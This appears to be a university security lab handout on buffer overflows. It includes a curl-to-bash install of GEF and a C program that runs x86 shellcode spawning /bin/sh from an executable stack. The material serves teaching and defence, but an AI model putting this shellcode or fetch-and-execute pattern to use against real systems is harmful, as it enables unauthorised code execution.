 # Lab 5: Buffer Overflow Vulnerability

* __Please Note:__ This lab must be completed on our __Kali Linux__ machine. 
* For this lab it would be helpful to install GEF (GDB Enhanced Features) in your Kali Linux shell. 
    ```SHELL
    $ bash -c "$(curl -fsSL https://gef.blah.cat/sh)"
    ``` 
* First read this page then start working through the lab with the GitHub classroom link below. 
* The files that you need to complete this lab are also found in the GitHub repository.
* Put your answers in the `README.md` file in the GitHub repository.
* Github Classroom Link: [https://classroom.github.com/a/ezrG-uE\_](https://classroom.github.com/a/ezrG-uE_)


### Objective

Learn about how to take advantage of a buffer overflow in a vulnerable program to run shellcode with the goal of identifying and preventing such vulnerabilities.


### Invoking Shellcode 

I have provided the binary shellcode to spawn a new `/bin/sh` shell, and
placed the code in a C program called `call_shellcode.c`. 

__call_shellcode.c__
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char shellcode[] =
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode); // Copy the shellcode to the stack
   int (*func)() = (int(*)())code;
   func();                 // Invoke the shellcode from the stack
   return 1;
} 
```
 
Compile and run the program and describe your observations. It should be noted that the compilation uses the `execstack` option, which allows code to be executed from the stack; without this option, the program will fail.

```SHELL
$ gcc -m32 -z execstack call_shellcode.c -o call_shellcode
$ ./call_shellcode
```

